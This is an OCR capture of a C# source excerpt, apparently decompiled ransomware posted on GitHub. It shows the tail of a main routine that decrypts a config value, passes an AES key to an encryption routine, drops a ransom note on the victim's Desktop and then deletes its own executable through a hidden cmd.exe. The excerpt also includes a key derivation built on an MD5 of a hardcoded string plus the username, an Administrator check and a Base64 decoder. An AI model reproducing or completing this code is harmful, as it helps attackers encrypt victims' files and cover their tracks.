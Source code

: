 ```csharp
		Config.Decrypt("SWxsU3RvcFRoaXM=");
		Crypt.Process(Config.AES);
		Utils.LeaveMessage();
		Utils.Annihilate();
	}
}

internal class Utils
{
	public static string CalculateKey()
	{
		try
		{
			return MD5("HelloWin" + Config.User);
		}
		catch
		{
			return "d7d129356554062f0311ee22d59ea9eb";
		}
	}

	public static void LeaveMessage()
	{
		File.WriteAllText("C:\\Users\\" + Environment.UserName + "\\Desktop\\info.txt", Config.Message);
	}

	public static bool CheckUser()
	{
		try
		{
			if (Environment.UserName != "Administrator")
			{
				return true;
			}
			return false;
		}
		catch
		{
			return false;
		}
	}

	public static void Annihilate()
	{
		Process.Start(new ProcessStartInfo
		{
			Arguments = "/C timeout 2 && Del /Q /F " + Application.get_ExecutablePath(),
			WindowStyle = ProcessWindowStyle.Hidden,
			CreateNoWindow = true,
			FileName = "cmd.exe"
		});
	}

	public static string DecodeBase64(string data)
	{
		try
		{
			if (string.IsNullOrEmpty(data))
			{
				return null;
			}
			return Encoding.UTF8.GetString(Convert.FromBase64String(data));
```